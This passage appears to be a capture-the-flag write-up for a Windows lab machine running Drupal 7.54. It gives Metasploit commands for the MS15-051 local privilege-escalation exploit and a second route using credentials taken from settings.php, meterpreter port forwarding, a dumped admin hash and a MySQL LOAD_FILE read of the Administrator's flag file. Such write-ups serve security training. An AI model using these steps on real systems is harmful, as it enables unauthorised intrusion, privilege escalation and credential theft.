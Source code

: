 - Using `metasploit`'s exploit suggester reveals:
	- Vulnerable to  `exploit/windows/local/ms15_051_client_copy_image`
- ![[Pasted image 20250422172703.png]]

# The Intended, easier and reverse shell route
----
- Just pop a shell using this kernel exploit
- **Note:- session shell with low level user MUST be of `x64`architecture**
```
 msf > use exploit/windows/local/ms15_051_client_copy_image
      msf exploit(ms15_051_client_copy_image) > show targets
            ...targets...
      msf exploit(ms15_051_client_copy_image) > set TARGET <target-id>
      msf exploit(ms15_051_client_copy_image) > show options
            ...show and set options...
      msf exploit(ms15_051_client_copy_image) > exploit
```

# Unintended, hard route (I found this):
---
- After searching for a while, I found credentials in `settings.php`inside `C:\inetpub\drupal-7.54/sites/default/settings.php`. Also, can search in https://drupal.stackexchange.com/questions/225477/where-are-the-database-username-and-password-stored
	- `root : mysql123!root`
- Not able to connect with MySQL using windows, therefore, **port forwarded with meterpreter** using:
	- `portfwd add -l 3306 -p 3306 -r 127.0.0.1`
- **Connect using**:
	- `mysql -u root -p -h 127.0.0.1 -P 3306`
		- `mysql123!root`
- Found **hash of admin in users table:**
	- `$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE`
	- But this was **not crackable**
- **==We are able to read and create any file using MySQL commands==**
- Therefore,
	- `SELECT LOAD_FILE('C:\\Windows\\Users\\Administrator\\Desktop\\root.txt');`

